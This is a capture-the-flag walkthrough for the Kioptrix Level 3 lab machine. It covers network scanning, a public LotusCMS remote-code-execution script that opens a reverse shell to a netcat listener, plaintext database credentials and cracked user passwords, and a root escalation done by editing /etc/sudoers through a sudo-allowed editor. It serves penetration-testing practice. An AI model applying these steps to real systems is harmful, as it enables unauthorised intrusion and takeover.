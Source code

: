 # Kioptrix Level 3 Walkthrough

# Kioptrix Level 3

## Machine Resolution

### Scanning and Vulnerability Analysis

We start with a scan of our local network with the arp command to obtain the ip of our target machine.
```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Once the ip is obtained we proceed to perform a scan with nmap.
```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

After scanning with nmap we see that port 80 is open with an http service so let's see what it contains using our browser in this case Firefox and we see the following website.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

In the description of the machine tells us to add the domain [kioptrix3.com](http://kioptrix3.com) to our file /etc/hosts to be able to see the web so we open it and add the following:
```bash
192.168.66.161  kioptrix3.com
```

### Exploitation

After surfing the site we can see that the web is made with LotusCMS.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

So we went to Google to find out if there is any exploit for this CMS and we found the following:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

we clone it to our machine and run

```bash
./lotusRCE.sh kioptrix3.com /

#Enter our ip
192.168.66.152 
#Port
4444
#In another terminal start netcat
nc -nlvp 4444
#select option 1
1
#we have a  shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

We performed a tty treatment to work more comfortably and to be able to do Ctrl+C.
```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

After enumerating for a while we found the file gconfig.php in /home/www/kioptrix3.com/gallery which contains some credentials to the database.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

we log into mysql:
```bash
mysql -uroot -pfuckeyou
```

And we obtain the credentials of the admin user but after a few attempts it does not help us to change the user.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

We log into phpmyadmin with the credentials obtained previously.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

and locate the hashes of the machine's users
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

I have used an online website to crack these hashes by obtaining the password in clear text.

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

Once we have obtained the credentials we connect via SSH but we get an error.


![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

To solve it we write the following to connect:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Privilege Escalation

If we read the CompanyPolicy.README file it tells us that they have installed new software to edit, create and view files and to use the command "sudo ht".

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

With sudo -l we see that we have permissions to run it.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

if we execute it at first we will get an error so we have to execute the following:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

And run it:

```bash
sudo ht
```

To open a file, use the ALT+ F keys and select the open field:
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

We are going to edit the file /etc/sudoers to be able to launch a shell as root and thus escalate privileges.

To do this, type /etc/sudoers and hit enter.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

We add the following command followed by the existing commands to the user loneferret so that he can execute it with sudo.
```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Press ALT + F to save and exit.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

We get a shell as root:
```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Happy Hacking :)

